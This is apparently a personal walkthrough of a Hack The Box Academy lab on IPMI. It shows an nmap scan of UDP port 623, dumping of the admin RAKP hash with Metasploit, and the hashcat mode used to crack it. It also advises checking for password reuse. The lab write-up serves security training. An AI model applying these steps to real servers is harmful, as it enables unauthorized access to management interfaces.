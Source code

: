 # IPMI

---

![Screenshot 2024-10-22 at 11.26.55 AM.png](IPMI%2012724f42a85b806fa692f9e48fbaa507/Screenshot_2024-10-22_at_11.26.55_AM.png)

ip=10.129.253.128

[https://www.notion.so](https://www.notion.so)

I always like to start with an nmap scan,

```
┌─[us-academy-5]─[10.10.14.179]─[htb-ac-1456674@htb-pjfx5lz9km]─[~]
└──╼ [★]$ sudo nmap -sU --script ipmi-version -p 623 10.129.253.128
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-22 10:31 CDT
Nmap scan report for 10.129.253.128
Host is up (0.0091s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds

```

Another way I can do this is with metasploit

![Screenshot 2024-10-22 at 11.33.27 AM.png](IPMI%2012724f42a85b806fa692f9e48fbaa507/Screenshot_2024-10-22_at_11.33.27_AM.png)

![Screenshot 2024-10-22 at 11.35.26 AM.png](IPMI%2012724f42a85b806fa692f9e48fbaa507/Screenshot_2024-10-22_at_11.35.26_AM.png)

Here I use this module to dump the hash transmitted by the server. The username is the admin and now I can try to crack this hash.

```
admin:5c35d3cf8200000059d6c41fe645e38b2866f70ba3fc1b216842c9bff53f14aec01ea9c6f34a66eba123456789abcdefa123456789abcdef140561646d696e:d913526e219ea4b62e0b39fd3351d2c247c72e07
```

the mode for this is 

```
7300 | IPMI2 RAKP HMAC-SHA1 | Network Protocol
```

![Screenshot 2024-10-22 at 11.38.33 AM.png](IPMI%2012724f42a85b806fa692f9e48fbaa507/Screenshot_2024-10-22_at_11.38.33_AM.png)

![Screenshot 2024-10-22 at 11.39.02 AM.png](IPMI%2012724f42a85b806fa692f9e48fbaa507/Screenshot_2024-10-22_at_11.39.02_AM.png)

With this I got a valid username and password. If this was a real test then i would attempt to check for password reuse because administrators often like to reuse passwords.